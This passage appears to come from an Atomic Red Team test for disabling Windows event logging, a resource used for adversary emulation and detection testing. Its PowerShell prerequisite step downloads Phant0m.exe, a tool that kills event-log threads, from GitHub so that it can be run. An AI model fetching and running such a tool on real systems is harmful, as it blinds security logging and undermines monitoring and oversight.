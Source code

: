 ```cmd
"#{file_name}"
```

#### Cleanup Commands:

```cmd
echo "Sorry you have to reboot"
```

#### Dependencies: Run with `powershell`!

##### Description: Phant0m.exe must exist on disk at specified location (#{file_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1562.002/bin/Phant0m.exe" -OutFile "#{file_name}" -UseBasicParsing
```

<br/>
